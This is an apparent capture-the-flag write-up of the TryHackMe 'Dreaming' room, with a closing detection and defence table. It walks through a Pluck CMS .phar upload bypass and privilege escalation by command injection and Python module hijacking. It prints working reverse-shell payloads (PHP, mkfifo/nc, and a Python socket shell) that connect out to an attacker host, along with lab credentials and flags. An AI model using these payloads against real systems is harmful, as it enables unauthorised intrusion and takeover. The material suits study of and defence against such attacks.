





# Dreaming

> **TL;DR** — The target runs Pluck CMS 4.7.13 on Apache (port 80), with SSH on 22. A weak admin password opens the Pluck admin panel, and an upload filter that blocks .php but not .phar lets me upload a PHP reverse shell for a foothold as www-data. From there the box is a four-link privilege chain: hardcoded credentials in a leftover script get me to lucien, an OS command injection in a sudo-runnable script (getDreams.py, shell=True) to death, a death-writable stdlib module (shutil.py) imported by a cron job to morpheus, and morpheus's unrestricted sudo finally to root.


---

## 1. Enumeration

I started as always with port enumeration. My go-to command for *nmap* is:
```bash
nmap -sC -sV -O -oN scan.txt TARGET_IP
```
*-sC* performs default Nmap scanning scripts, *-sV* so I can get the port services versions and *-O* operating system detection. Finally, *-oN <FILENAME.txt>* outputs my scan result on a file, very convenient for later use. And that's what I have:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0) 
[...]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
[...]
```

Here, I have port 22 open, which may prove useful later. When you connect to an SSH service, it's like you're sitting right in front of the target machine's terminal. But in order to do that, you need some form of authentication: a password or an RSA key. I have neither, so I move on — but port 80 is also open, which means I can visit http://<TARGET_IP>



A default Apache2 page.

Let me enumerate directories with *gobuster*; maybe there's something interesting under the surface. Directory enumeration means finding directories, files or endpoints that are not linked on a web server.

```bash
gobuster dir -u http://TARGET_IP -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[...]
app                  (Status: 301) [Size: 310] [--> http://TARGET_IP/app/]
server-status        (Status: 403) [Size: 277]
[...]
```

I've found an */app* directory. Let me see what's inside:



and by clicking on pluck-4.7.13 I get this:


"What power would hell have if those here imprisoned were not able to dream of heaven?"
Kinda cryptic, mysterious and ominous! But what catches my eye is an admin link at the bottom. I clicked on it:



This page asks for a password. I inspected the page source but nothing significant stood out, so my initial thought was that trying some weak passwords was worth the trouble. Beware though: this site has rate limiting for failed attempts.


After waiting for the cool-down period, I finally found the password: **password**.




---

## 2. Exploitation


Now, in this administration center, I can manage the website's files, but not all file types can be uploaded. For example, *.php* files can't be uploaded. Since I can see that **Pluck** runs this website, I googled this particular version (4.7.13) for vulnerabilities and I found one: CVE-2020-29607. A file upload restriction can be bypassed, which means that I can't upload a *.php* file BUT I can upload a *.phar* file. A PHAR file is a PHP Archive, which may contain PHP code files. Why is that important? Why am I focusing on uploading files and *.php* files? Well, *.php* files are files containing code written in PHP language and are processed by web servers. Pluck filters which file types are allowed by using an extension blacklist: it blocks *.php* and its variants but inside this blacklist *.phar* doesn't appear. Moreover, Apache here is configured to pass PHAR files to the PHP handler and PHP treats PHAR files as executables. A more robust approach than a blacklist could be a *whitelist* where you allow only what you expect to be uploaded. So, what if I create a PHP reverse shell script, save it as PHAR file, upload it and launch it?
Let me try it!

First let me prepare the PHP payload script: create a new file with:

```bash
nano <NAME>.phar
```
and I paste a script from https://www.revshells.com/ (the PHP PentestMonkey version) into the new file. Remember to change the $ip value to your own IP address; $port = 4444 is fine unless you want to change it.

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'ATTACKER_IP';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

[...]

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
The reverse shell is an outbound connection from the target machine to another machine. It is like the target machine calling to you, asking for you to connect to it. So, I'm going to need to listen: I need a **listener**.
What I like to do is *wrap* my listener with **rlwrap**: with a bare listener some features are disabled — things like editing input with the arrow keys or searching the command history — which gets uncomfortable fast. Rlwrap fixes that behaviour. So the command is:

```bash
rlwrap nc -lvnp 4444
```

4444 is the port you chose on the reverse shell payload script.
Now, on the *Manage files* page, I upload my *.phar* file and click the magnifier glass.



On my terminal, where my listener is waiting, I have this:

```bash
listening on [any] 4444 ...
[...]
uid=33(www-data) gid=33(www-data)
$ 

```

Now I have a shell. To make things even better, I can spawn a REAL shell, by using this command:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
It's optional, but it's a nice touch!
Now let me enumerate a little bit. In the */home* directory there are three interesting users, **death, lucien** and **morpheus**:

```bash
drwxr-xr-x  4 death    death    4096 Aug 25  2023 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25  2023 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7  2023 morpheus
```
In the */death* directory two files stand out, **death_flag.txt** and **getDreams.py**; unfortunately I can't see what's inside them, but I can execute one of them:

```bash
-rw-rw---- 1 death death   21 Jul 28  2023 death_flag.txt
-rwxrwx--x 1 death death 1539 Aug 25  2023 getDreams.py
```
Same thing in */lucien* directory:

```bash
-rw-rw---- 1 lucien lucien   19 Jul 28  2023 lucien_flag.txt
```
However, in the **morpheus** directory everyone can read **restore.py**:
```bash
-rw-rw-r-- 1 morpheus morpheus   22 Jul 28  2023 kingdom
-rw-rw---- 1 morpheus morpheus   28 Jul 28  2023 morpheus_flag.txt
-rw-rw-r-- 1 morpheus morpheus  180 Aug  7  2023 restore.py
```

I want to inspect what **restore.py** contains:

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
It could be helpful, I don't know yet.
Continuing enumeration, I found **getDreams.py** file on */opt* directory, the same file (apparently) I found on */death* directory. This time I can examine how this script is composed, specifically:

```python
DB_USER = "death"
command = f"echo {dreamer} + {dream}"
subprocess.check_output(command, text=True, shell=True)
```

Interesting: there's a database in here. I don't have credentials for it right now, but let me keep this in mind.
In the same directory there's another Python script, called **test.py**. Let's investigate what's inside:

```python
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)

```
And there we have it: 
```python
password = "HeyLucien#@1999!"
```
Hardcoded passwords (or any other secret) are very risky because, as you can see, anyone who can have access to the code has access to your secret.
Let me try to SSH into *lucien* with this new password:

```bash
[...BIG FANCY CASTLE GATE...]
W e l c o m e, s t r a n g e r . . .
[...]
lucien@ip-TARGET_IP:~$ 

```
Now let me check who I really am with *whoami*; once I've confirmed I'm *lucien*, first things first — grab the flag:
```bash
lucien@ip-TARGET_IP:~$ cat lucien_flag.txt
THM{TH3_L1BR4R14N}

```


---

## 3. Privilege Escalation


There are few initial steps I do everytime I get foothold: what I can run with *sudo*, inspect command history and crontab and check for capabilities.
I will have a look at what I can run with sudo:

```bash
lucien@ip-TARGET_IP:~$ sudo -l
[...]
User lucien may run the following commands on ip-10-67-188-85:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```
That's very interesting! I can run the file I saw earlier in the */death* directory with no password, just by running:

```bash
lucien@ip-TARGET_IP:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician
```

If this is the same file I saw in */opt*, I know these rows come from a MySQL database.
Let me continue and see if *lucien* left something useful in the command history:

```bash
lucien@ip-10-67-188-85:~$ history
  
   23  ls
   24  mysql -u lucien -plucien42DBPASSWORD
   25  ls -la
  ```

The user made two mistakes here: they didn't hit *enter* after the *-p* flag and typed the password along with the command; they didn't erase the command history after making that mistake. Because of that, now I can run:

```bash
mysql -u lucien -p
```
and then I type the password: lucien42DBPASSWORD

```bash
lucien@ip-TARGET_IP:~$ mysql -u lucien -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
.
.
.

mysql> 

```
Now I can see what's inside the database:

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| library            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)

```
Those are the same rows I saw when launching **getDreams.py**, and I know this file is owned by **death**.

I remember I saw this in **getDreams.py**:

```python
command = f"echo {dreamer} + {dream}"
```
which means this file takes the values from the *dreamer* and *dream* columns of the *library* table and prints them. But here's the downside of this approach: if you run **echo** and a *command* is inside $(), Bash just executes the command. For example, if I write:

```bash
┌──(francesco㉿kali)-[~]
└─$ echo whoami
whoami
```

*echo* just writes back what I wrote after it. But if I run:

```bash
┌──(francesco㉿kali)-[~]
└─$ echo $(whoami)
francesco                         
```
*whoami* command is executed. Therefore, I can attempt the same approach in this room. First I want to try a simple command, just to confirm I'm going in the right direction, by inserting a new row in the *library* database with a *whoami* command. In the MySQL shell:

```
insert into dreams (dreamer, dream) values ('ginny', '$(whoami)');
```

and if I run **getDreams.py**

```bash
lucien@ip-10-67-163-89:~$ sudo -u death python3 /home/death/getDreams.py
Alice + Flying in the sky

[...]

ginny + death

```

So it works. I added *ginny* in the *dreamer* column and *$(whoami)* in the *dream* column, and it gives me back *death* for the *whoami* command. Why did this happen? Because the script doesn't sanitize its input.
To be more specific, **getDreams.py** simply builds a shell command and embeds database values in it:
```bash
command = f"echo {dreamer} + {dream}"
```
next it executes it with:
```
subprocess.check_output(command, shell=True)
```
That **shell=True** is the real flaw here: the entire string on the DB is interpreted by the *shell*, including metacharacters (like $, `, (,) or ;). Consequently, if a value contains $(...), the *shell* interprets it as a subcommand. This is a textbook example of **OS command injection**.
Now, I can try to spawn a shell as *death* directly or I can choose a reverse shell. I chose a reverse shell. I've tried some of them from *revshells.com* and this one worked for me:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP_ADDRESS PORT >/tmp/f
```

```
insert into dreams (dreamer, dream) values ('bill', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.130.137 4445 >/tmp/f)');
```

Open a listener:

```bash
rlwrap nc -lvnp 4445
```
Run the script:

```bash
lucien@ip-10-67-163-89:~$ sudo -u death python3 /home/death/getDreams.py
Alice + Flying in the sky

[...]

ginny + death

/bin/sh: 1: Syntax error: Bad fd number
bill +

rm: cannot remove '/tmp/f': No such file or directory

```
And I have a shell. Now I'm *death*:

```bash
listening on [any] 4445 ...
connect to [192.168.130.137] from (UNKNOWN) [10.67.163.89] 46770
$ whoami
death
```

I always stabilize my shell with **python3 -c 'import pty; pty.spawn("/bin/bash")'**
Let me grab the flag in the */death* directory:

```bash
cat death_flag.txt
THM{1M_TH3R3_4_TH3M}
```

Out of curiosity, let's check if **getDreams.py** on */death* is the same file I found on */opt* and I found this inside:

```bash
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"
```

A password for **death** that also works over **SSH**. Again I'm welcomed by the imposing castle gate. I still need to move laterally; my next objective is morpheus's flag.
There are some things I overlooked earlier in the */morpheus* directory. One of them is **restore.py**:

```bash
death@ip-TARGET_IP:/home/morpheus$ cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
I also inspected **kingdom**:

```bash
death@ip-10-67-184-109:/home/morpheus$ cat kingdom
We saved the kingdom!
```

Nothing noticeable. However, another **kingdom** file is in */kingdom_backup/* folder:

```bash
death@ip-10-67-184-109:/home/morpheus$ sudo cat /kingdom_backup/kingdom
[sudo] password for death: 
death is not in the sudoers file.  This incident will be reported.
```
I can't see what's inside that file. The crontab gives me nothing useful, and neither does *getcap*. After some time trying to find a breach, I uploaded **pspy64** to the */tmp* folder and launched it. This tool "is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute." which means it allows to see when a process is executed in background from time to time.
After launching it and waiting a while, this line appeared at the bottom of the pspy64 output:

```bash
CMD: UID=1002  PID=1997   | /usr/bin/python3.8 /home/morpheus/restore.py
```

And, as I can see on */etc/passwd*:

```bash
morpheus:x:1002:1002::/home/morpheus:/bin/bash
```
1002 is indeed morpheus. What I'm seeing here is that *restore.py* is run periodically as a cron job owned by *morpheus*, so it runs with morpheus's privileges; therefore, if this script executes a reverse shell, that shell will have morpheus's privileges. Now, I can't write to *restore.py*, but this file imports from **shutil**.
When Python hits **import shutil**, it searches for the **shutil** module in *sys.path* and loads the first file it finds; for the *stdlib* that file is */usr/lib/python3.8/shutil.py*. I see that *death* can write on it:

```bash
-rw-rw-r-- 1 root death 51474 Mar 18  2025 /usr/lib/python3.8/shutil.py
```
Bear in mind, privilege doesn't come from who owns *shutil.py* but from who launches the script in which this module has been imported. Furthermore, you can ask yourself why this approach can work, since **copy2** comes from **shutil.py** and the answer is that the code I put on module top-level runs *as soon as* import occurs, leaving the rest of the script redundant. This class of attack is called **Python module hijacking** (a form of library/path hijacking).
Hence, once again, I tried a reverse shell by overwriting *shutil.py* with a script from *revshells.com*. What worked for me is:

```bash
death@ip-TARGET_IP:/tmp$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP_ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' > /usr/lib/python3.8/shutil.py
```
I waited for the process to run on background and a shell spawned on my listener:

```bash
┌──(francesco㉿kali)-[~]
└─$ rlwrap nc -lvnp 4446
listening on [any] 4446 ...
connect to [192.168.130.137] from (UNKNOWN) [10.67.184.109] 39310
morpheus@ip-10-67-184-109:~$ 
```

Let me just grab the flag:

```bash
cat morpheus_flag.txt
THM{DR34MS_5H4P3_TH3_W0RLD}
```

The next part isn't mandatory to complete the room; it's just a nice bonus: escalating to root.

## Bonus: Root Shell

morpheus can run anything via sudo:

```bash
morpheus@ip-10-67-184-109:~$ sudo -l
sudo -l
Matching Defaults entries for morpheus on ip-10-67-184-109:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User morpheus may run the following commands on ip-10-67-184-109:
    (ALL) NOPASSWD: ALL
```

So I switch to *root*:

```bash
morpheus@ip-10-67-184-109:~$ sudo su
sudo su
root@ip-10-67-184-109:/home/morpheus# whoami
whoami
root
root@ip-10-67-184-109:/home/morpheus# 
```
Now I have a root shell.

---

## 4. 🔵 Detection & Defence


| Attack step | Artifact / log left behind | What an analyst would see | Detection (rule / idea) |
|---|---|---|---|
| Directory enumeration (gobuster)| Apache *access.log*: sequence of requests, many 404, scanner User-Agent| Hundreads of requests from a single IP in a few seconds, gobuster/3.x type | Threshold on N requests per minute per IP; alert on known scanner User-Agent; WAF/reverse-proxy rate limining|
| Password guessing on the Pluck Admin Login | *access.log*: many POST to */app/pluck-4.7.13/login.php* from one IP; the app's lockout message after N failures | A burst of failed logins from one IP/Session, followed by lockout responses | Threshold on failed logins per IP/min; alert one the loclout event itself |
| Malicious *.phar* upload → reverse shell (RCE) as *www-data* | A *.phar* dropped in Pluck's upload dir; *access.log* shows the upload POST then GET to the file; on the host, *apache2/www-data* spawns a child *sh / python3 * and opens an outbound connesction to the attacker | A web-server process executing a shell and making an outbound connection -- a strong anomaly; an executable dropped in webroot |EDR/auditd alert when a web process (parent *apache2*, user *www-data*) spawns *sh / bash nc / python *; egress filtering on outbound connections from the server; FIM on the upload directory |
| Hardcoded credentials → SSH as *lucien* | *auth.log*: a successful SSH login for lucien from the attacker's IP | A successful SSH authentication from an unusual/external source IP for that account | Alert on SSH logins from new/unexpected source IPs (baseline per account); impossible-travel correlation in the SIEM — valid creds are low-signal, so detection leans on context (source IP, time) |
| *sudo -u death getDreams.py* + OS command injection → death | *auth.log* records lucien running the sudo-allowed script; MySQL query log shows an INSERT INTO dreams containing $(...); the script spawns a child shell and an outbound connection | A sudo-allowed script that normally only prints, suddenly spawning a shell right after a DB insert full of shell metacharacters | Alert on DB values containing shell metacharacters ($(, backticks, ;, …); the script should only echo, so flag any unexpected child process under it (EDR process tree) |
| Python module hijacking: overwrite *shutil.py*, cron runs *restore.py* → *morpheus* | FIM event: */usr/lib/python3.8/shutil.py* modified by the non-root group *death*, outside any package install; then morpheus's cron *python3* spawns a shell + outbound connection | A system Python library changed (stdlib files never change except via *apt*), followed by a scheduled job producing a shell | FIM/auditd watch on */usr/lib/python*/* and site-packages (alert on any change not tied to a package install); alert when a cron/scheduled process spawns an interactive shell or connects outbound |
| *sudo su* with *NOPASSWD: ALL* → *root* | *auth.log*: morpheus runs *sudo su* → root session | A non-admin account escalating straight to root via sudo | Alert on *sudo* to root by accounts outside the admin group; audit sudoers for *NOPASSWD: ALL* grants; monitor new root sessions |

---

## 5. Riferimenti

- Room: https://tryhackme.com/room/dreaming
- CVE: https://nvd.nist.gov/vuln/detail/cve-2020-29607
- CVE Exploit: https://www.exploit-db.com/exploits/49909
- Reverse Shells: https://www.revshells.com